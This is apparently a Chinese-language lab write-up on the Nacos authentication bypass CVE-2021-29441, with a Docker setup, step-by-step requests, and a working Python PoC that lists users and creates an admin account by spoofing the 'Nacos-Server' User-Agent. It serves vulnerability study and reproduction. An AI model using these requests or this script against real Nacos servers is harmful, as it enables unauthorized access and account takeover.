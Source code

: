 # Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。

执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户
4. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`获取已有的用户列表
5. 访问`http://target:8848/nacos/`，使用添加的新用户(vulhub/vulhub)进行登录

**检测漏洞是否存在**

添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200，且内容中是否包含`pageItems`。

![image-20220226230032045](./images/202202262300141.png)

**添加新用户**

添加Header头后使用`POST`方式请求`http://target:8848/nacos/v1/auth/users?username=test&password=test`添加一个新用户，账号密码都为`test`。

![image-20220226230105927](./images/202202262301006.png)

**使用新建的账号进行登录**

使用账号密码`test/test`登录。

![image-20220226230250829](./images/202202262302898.png)

## 漏洞POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```

![image-20220226225534784](./images/202202262255839.png)

